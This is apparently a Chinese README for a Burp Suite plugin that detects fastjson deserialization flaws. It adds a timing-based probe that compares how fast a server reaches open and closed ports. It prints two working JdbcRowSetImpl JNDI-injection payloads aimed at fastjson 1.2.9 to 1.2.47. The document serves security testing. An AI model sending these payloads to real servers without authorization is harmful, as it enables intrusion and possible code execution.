 ## 前言

学习了pmiaowu的fastjson扫描插件，其主要是两种检测方式

一种是利用c3p0回显探测

一种是利用dnslog探测

想了想如果不存在回显且对方不出网的情况下，可能会扫描不到

所以添加了一种延迟探测方式，当回显以及dnslog无法探测出时采用延迟探测方式

根据访问开放端口与关闭端口的响应时间不同来判断是否存在漏洞点

fastjson 1.2.9-1.2.47

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:808/badNameClass",
        "autoCommit":true
    }
}
```

还有一种通用payload,可用于parseObject的场景，但是测试了一下发现上面这个也行

```json
{"@type":"com.alibaba.fastjson.JSONObject",{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:8088/badNameClass",
        "autoCommit":true
    }
}}""}
```

https://mp.weixin.qq.com/s/5mO1L5o8j_m6RYM6nO-pAA

## 安装

 ![image-20220923205653176](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923205653176.png)

将target\BurpFastJsonScan下jar包导入

## 效果展示

![image-20220923212341248](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212341248.png)

![image-20220923212355278](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212355278.png)

![image-20220923212404351](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212404351.png)

![image-20220923212444871](https://github.com/xunyang1/FastjsonScan/blob/main/images/image-20220923212444871.png)
